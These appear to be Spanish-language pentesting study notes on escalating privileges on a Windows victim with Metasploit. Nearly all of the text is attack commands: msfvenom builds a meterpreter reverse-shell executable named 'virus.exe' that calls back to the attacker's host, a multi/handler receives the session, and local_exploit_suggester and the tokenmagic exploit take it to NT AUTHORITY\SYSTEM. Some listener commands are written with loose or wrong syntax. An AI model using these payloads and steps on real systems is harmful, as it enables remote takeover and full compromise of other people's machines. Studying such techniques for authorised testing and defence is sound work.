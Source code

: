 una vez que tenemos una sesión con meterpreter en la maquina Windows victima


```sh fold:"msfvenom para windows"
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IPLOCAL} LPORT={PurtoLocal} -f exe -o virus.exe


# para maquinas de 64 bits
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={IPLOCAL} LPORT={PurtoLocal} -f exe -o virus.exe

```

para recibir el meterpreter escuchamos con metasploit con multihandler
use /multihandler
set Lhost ip local
set payload = windows/x64/meterpreter/reverse_tcp
nota: mismo maypload que de msfvenom

run y conseguimos la sesion de meterpreter

```sh fold:"meterpreter"
meterpreter > background
msf exploit(multi/handler) > search local_exploit_suggester

use 0
session -l
# cogemos el id de de sesion
set SESSION {idSesion}
run
# encuntra una lista de exploit que podríamos usar para explotar la escalada de privilegios
# lista en rojo y verde, miramos solo los verdes e iríamos probando uno a uno
use  exploit/windows/local/tokenmagic   # este es el del caso del ejemplo

completamos lo que nos pida en show options
y run
shell
whoami
nt authority/system

```
